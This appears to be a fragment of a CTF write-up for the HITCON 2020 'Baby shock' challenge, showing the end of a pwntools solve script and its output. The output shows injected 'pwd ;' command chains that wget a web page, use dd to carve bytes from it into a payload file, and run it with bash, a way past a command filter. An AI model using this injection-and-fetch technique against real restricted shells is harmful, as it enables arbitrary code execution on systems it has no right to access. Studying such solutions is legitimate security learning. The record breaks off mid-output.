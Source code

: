 ```python
    io = pwn.remote('54.248.135.16', 1986)
    io.sendline(p)
    print(io.recvallS(timeout=2))
else:
    print(subprocess.check_output(p, shell=True).decode())
```

Output:
```
$ python3 solve.py "ls -l /" remote
--2020-11-29 16:12:17--  http://hitcon.org/
Resolving hitcon.org (hitcon.org)... 104.27.174.104, 104.27.175.104, 172.67.200.105, ...
Connecting to hitcon.org (hitcon.org)|104.27.174.104|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://hitcon.org/2020/ [following]
--2020-11-29 16:12:17--  https://hitcon.org/2020/
Connecting to hitcon.org (hitcon.org)|104.27.174.104|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘index.html’

index.html                                          [ <=>                                                                                                 ]  11.97K  --.-KB/s    in 0.002s

2020-11-29 16:12:17 (6.29 MB/s) - ‘index.html’ saved [12253]


pwd ; rm index.html
pwd ; rm payload
pwd ; wget hitcon.org
pwd ; dd if=index.html of=payload bs=1 count=1 skip=13 seek=0
pwd ; dd if=index.html of=payload bs=1 count=1 skip=59 seek=1
pwd ; dd if=index.html of=payload bs=1 count=1 skip=9 seek=2
pwd ; dd if=index.html of=payload bs=1 count=1 skip=30 seek=3
pwd ; dd if=index.html of=payload bs=1 count=1 skip=13 seek=4
pwd ; dd if=index.html of=payload bs=1 count=1 skip=9 seek=5
pwd ; dd if=index.html of=payload bs=1 count=1 skip=167 seek=6
pwd ; bash payload
[+] Opening connection to 54.248.135.16 on port 1986: Done
[+] Receiving all data: Done (2.64KB)
[*] Closed connection to 54.248.135.16 port 1986
connected!
welcome to Baby shock, doo, doo, doo, doo, doo, doo!!!
> > > > > > > > > > > > > > > > > > > > > > > /hitcon/75.188.17.80
/hitcon/75.188.17.80
/hitcon/75.188.17.80
Connecting to hitcon.org (104.27.174.104:80)
Connecting to hitcon.org (172.67.200.105:443)
index.html           100% |*******************************| 12253   0:00:00 ETA

/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
1+0 records out
/hitcon/75.188.17.80
1+0 records in
```